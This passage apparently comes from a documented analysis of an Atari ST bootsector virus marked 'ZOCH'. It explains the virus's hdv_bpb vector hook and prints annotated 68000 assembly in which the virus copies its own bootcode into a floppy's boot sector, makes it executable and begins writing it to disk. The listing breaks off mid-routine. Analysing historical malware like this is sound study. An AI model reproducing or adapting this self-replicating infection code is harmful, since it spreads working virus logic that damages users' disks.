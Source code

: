 ### The HDV_BPB vector

Now that the virus is installed in memory, and that the VBL routine has set the `hdv_bpb` vector, it will wait any call to BIOS `Getbpb()` which retrieves the `BPB` (Bios Parameter Block) of the floppy disk. 
This vector will:

 - Duplicate the Getbpb(dev) stack on `A6`.
 - Keep a copy of the device value and call the original vector.
 - Exit if the "ZOCH" signature is in the disk buffer OEM bytes.
 - Else, copy the bootsector branch and signature in the disk buffer.
 - Copy the bootcode in the disk buffer.
 - Use `Protobt` TRAP to make an executable bootsector from the disk buffer.
 - Use `Flopwr` TRAP to write the bootsector on the same device
 

```asm
; ----------------------------------------------------------------------------------------------------------
; HDV_BPB_VECTOR
; when Getpbp( dev ) is called
; Applications installing themselves here should exp
; be for the actual function call beginning at 4(sp)
; ----------------------------------------------------------------------------------------------------------    
HDV_BPB_VECTOR:
        LINK.W    A6,#$0                            ; copy SP on A6
        MOVE.W    $8(A6),-(sp)                      ; Save copy of dev on stack to be kept after old vector call

        MOVEA.L   OLD_HDV_BPB_VECTOR(PC),A0         ; get old vector in A0 
        JSR       (A0)                              ; call old vector
        ADDQ.L    #2,sp                             
        MOVEM.L   D0/A0/A1,-(sp)                    ; save D0,A0,A1 on stack

        MOVEA.L   DISKBUFP,A0                       ; A0 = diskbuf

        ; check signature, if there, do nothing
        CMPI.L    #BOOTSECTOR_SIGNATURE,$2(A0)      ; DC.W 'ZOCH'
        BEQ.W     DO_NOTHING

        ; write bootsector branch and OEM
        MOVE.L    #BOOTSECTOR_BRA,(A0)+          
        MOVE.L    #BOOTSECTOR_OEM,(A0)+              

        ADDA.L    #$16,A0                           ; advance to boot code in A0 ($16 + $8 = $1E)
        LEA       START(PC),A1                      ; advance to bootcode in A1
        MOVE.W    #$77,D0                           ; for d0 = 119 to 0
.copy:
        MOVE.L    (a1)+,(a0)+                       ; copy 480 bytes from DISKBUFP[bootcode at $1E]
        DBF       D0,.copy

        ; create executable bootsector
        MOVE.W    #1,-(sp)                          ; execflag = 1 (executable)
        MOVE.W    #$FFFF,-(sp)                      ; no change
        MOVE.L    #$FFFFFFFF,-(sp)                  ; serial
        MOVE.L    DISKBUFP.L,-(sp)                  ; buf = diskbuf
        MOVE.W    #$12,-(sp)                        ; PROTOBT
        TRAP      #$E                               ; Xbios

        MOVE.W    #1,-(sp)                          ; count: 1                   
        CLR.L     -(sp)                             ; side: 0 | track: 0
        MOVE.W    #1,-(sp)                          ; sector: 1  
        MOVE.W    8(A6),-(sp)                       ; dev of Getpbp( dev ) put on stack copy
        CLR.L     -(sp)                             ; rsrvd = 0
```